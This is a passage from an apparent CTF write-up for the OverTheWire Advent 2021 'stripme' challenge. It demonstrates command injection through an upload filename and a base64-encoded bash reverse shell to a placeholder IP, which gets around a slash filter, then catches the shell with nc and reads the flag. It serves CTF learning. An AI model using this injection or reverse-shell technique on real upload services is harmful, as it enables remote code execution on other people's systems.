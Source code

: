 > Either you take the quote-pill, the story ends, and you wake up in your bed believing vulns only exist in CTFs. Or you take the pipe-pill, stay in wonderland, and see how deep the call stack goes. 

Playing around with the filename ending in a pipe, and I quickly got command injection.  The follow command took 5 seconds to return:

```bash
curl -v -F "file=@test.jpg;filename=sleep 5 |" http://stripme.advent2021.overthewire.org:1208/
```

Though if you use any `/` character in your filename, the server errors out with:

```
Hacking attempt detected. This incident will be reported!
```

Using base64 encoding, we can get a bash reverse shell without `/`s:

```
$ echo "bash -c 'bash -i >& /dev/tcp/my.ip.ad.dr/9001 0>&1'" | base64 
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC9teS5pcC5hZC5kci85MDAxIDA+JjEnCg==
$ curl -v -F "file=@test.jpg;filename=echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC9teS5pcC5hZC5kci85MDAxIDA+JjEnCg== | base64 -d | bash |" http://stripme.advent2021.overthewire.org:1208/
```

```
$ nc -lp 9001
nobody@9d3db3f6a3ad:/opt/strip_me$ id
id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
nobody@9d3db3f6a3ad:/opt/strip_me$ ls
ls
flag
server.py
static
templates
uploads
nobody@9d3db3f6a3ad:/opt/strip_me$ cat flag	
cat flag 
AOTW{uPl0aD_y0uR_iMaG3S_t0_tH3_Int3rN3T_f0r_MaX1MuM_pR1VaCy}
```

## Exploring the challenge

Well that was weird...

![neo touching the liquid glass mirror scene as a gif](images/mirror.gif)

> Have you ever found a vuln in a CTF you were so sure was real? What if you were unable to verify that vuln? How would you know the difference between the real vuln and the CTF vuln? 

> This can't be...

> Be what? Be a real vuln? 

Now that we have a shell on the machine, let's poke around and see how the challenge actually works. Here is the main logic from [server.py](files/server.py):

